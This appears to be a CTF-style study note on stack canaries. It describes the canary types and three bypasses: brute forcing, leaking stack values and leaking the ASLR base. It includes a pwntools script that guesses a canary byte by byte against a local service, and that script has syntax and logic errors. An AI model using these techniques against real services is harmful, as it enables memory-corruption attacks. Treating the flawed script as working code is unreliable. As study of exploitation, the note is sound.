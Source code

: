 # Canary Bypass

## Stack Canaries

Stack canaries are used to detect a stack buffer overflow before execution of any malicious code can occur. This method works by placing a **small integer**, which value has been randomly chosen at the start of the program within the stack **just before the stack return pointer**.&#x20;

We can illustrate how it works through analysing the stack contents:

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

When the binary runs, it checks the canary and ensures that it does not change. If altered, the execution would end immediately.&#x20;

Stack canaries are checked for their value just before the return to the calling function, which is where attackers would normally gain control over the instruction pointer.&#x20;

### Types of Canaries

There are many types of canaries, but here are the most common ones:

|                   |                     |                          |
| ----------------- | ------------------- | ------------------------ |
| _Type_            | _Example_           | _Protection_             |
| Null canary       | 0x00000000          | 0x00                     |
| Terminator canary | 0x00000aff          | 0x00, 0x0a, 0xff         |
| Random canary     | \<any 4-byte value> | Usually starts with 0x00 |
| Random XOR canary |                     | Usually starts with 0x00 |
| 64-bit canary     | <8 bytes>           |                          |
| Custom canary     |                     |                          |

Each canary has their own set of advantages and security measures introduced:

* Null Canary is the most simple as it's just 4 NULL bytes. However, this is the most vulnerable of canaries because its predictable and **there are functions that can read null canaries**.
* Terminator Canaries introduces two or more hex values that attempt to terminate string operations. These values are still predictable
* Random Canaries are better in terms fo protection, and **usually consist of a NULL byte followed by 3 random bytes**. The NULL byte would attempt to terminate string operations, while the 3 random bytes will make the canary less predictable.
* The random XOR canary is similar to the random canary, but its value is XOR'd against a non-static value in the program, such as the EBP. Since most binaries run with ASLR enabled, this provides a lot more security.&#x20;

## Bypasses

### Brute Forcing

One of the ways is to brute force and randomly guess the canary. This only works **if the canary is a  static value and it has the same canary everytime** (common for network services). We can brute force a canary **char by char** and see if the program crashes or continues.

This is the python script I use to brute force canaries:

```python
from pwn import *

def connect():
    r = remote("localhost", 13337)
    
def get_cookie(base):
    canary = ''
    guess = 0x0
    base += canary
    
    while len(canary) < 8 # or 4 if 32-bit
        while guess != 0xff:
            r = connect()
            
            r.recvuntil("if needed")
            r.send(base + chr(guess))
            # add as many r.recvuntil as needed.
            
            if "OUTPUT IS PRODUCED" in r.clean():
                print("Guessed Correct bytes", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()
        print(canary)
        return base
    
offset = 123
base = "A" * offset
base_canary = get_cookie(base)
print (base_canary)
```

The rough script is like this using `pwntools`.&#x20;

### Printing Stack Values

Another way is to print out the values of the stack and view the canary. Most canaries begin with the NULL byte of \x00, and we can make use of certain functions, like `printf` that may be running within the binary to see the values of the stack.&#x20;

Alternatively, one could create a script that would intercept the value of the canary and then send the exploit later with this value. In some cases, this is the only way to exploit the binary due to a randomised value.&#x20;

### ASLR Bypass

As with all ASLR bypasses, the main thing to leak is the **base address value**. This can be done through the usage of an LFI exploit to read the processes that are running (like in HTB Retired), or calculation of the base through brute-forcing the instruction and base pointer values.&#x20;

Once the base is leaked, the **offsets** can be calculated to create a ROP chain if needed.
